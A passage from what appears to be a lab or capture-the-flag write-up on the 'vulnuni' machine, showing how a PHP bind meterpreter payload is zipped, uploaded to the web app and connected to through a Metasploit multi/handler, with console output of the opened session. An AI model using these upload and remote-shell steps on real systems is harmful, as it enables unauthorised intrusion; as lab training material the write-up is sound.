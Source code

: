 Before the exploit could be uploaded to the application, it needed to be zipped and compressed. Once zipped, I uploaded it to the vulnuni webserver.

```bash
root@kali$ zip bind-meterpreter bind-meterpreter.php 
  adding: bind-meterpreter.php (deflated 62%)
```  

<br/>
#### Target Infiltration  

With the exploit ready, I started a metasploit session and opened a multi/handler to connect to the bind shell.  

```bash
root@kali$ msfconsole

msf5 > use multi/handler
msf5 exploit(multi/handler) > set LHOST 192.168.8.130
LHOST => 192.168.8.130
msf5 exploit(multi/handler) > set RHOST 192.168.8.132
RHOST => 192.168.8.132
msf5 exploit(multi/handler) > set LPORT 4448
LPORT => 4448
msf5 exploit(multi/handler) > set payload php/meterpreter/bind_tcp
payload => php/meterpreter/bind_tcp
``` 

I set the necessary LPORT, LHOST, RHOST, and payload options. Before I launched the handler, I browsed the payload on the target website to initiate the bind shell. Once the payload loaded, I ran the handler and received the shell.

```bash
root@kali$ msf5 >

msf5 exploit(multi/handler) > run

[*] Started bind TCP handler against 192.168.8.132:4448
[*] Sending stage (38288 bytes) to 192.168.8.132
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.8.132:4448) at 2020-05-12 00:43:47 -0400
```

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">